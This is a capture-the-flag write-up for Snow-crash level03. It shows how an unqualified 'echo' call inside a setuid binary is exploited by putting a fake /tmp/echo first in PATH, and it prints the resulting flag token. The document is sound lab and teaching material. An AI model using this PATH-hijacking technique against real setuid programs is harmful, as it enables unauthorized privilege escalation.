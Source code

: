 # Snow-crash - level03

* An binary as find in the home directory
```console
~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
~$ ./level03
Exploit me
```

* Use [`ltrace`](https://man7.org/linux/man-pages/man1/ltrace.1.html), for intercept and print the system calls executed by the program
```console
~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                               = 2003
geteuid()                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                  = 0
+++ exited (status 0) +++
```

* `echo` called in `system` without full path
* Let's write another echo that calls getflag
```console
~$ echo "/bin/getflag" > /tmp/echo
~$ chmod +x /tmp/echo
~$ export PATH=/tmp:$PATH
~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```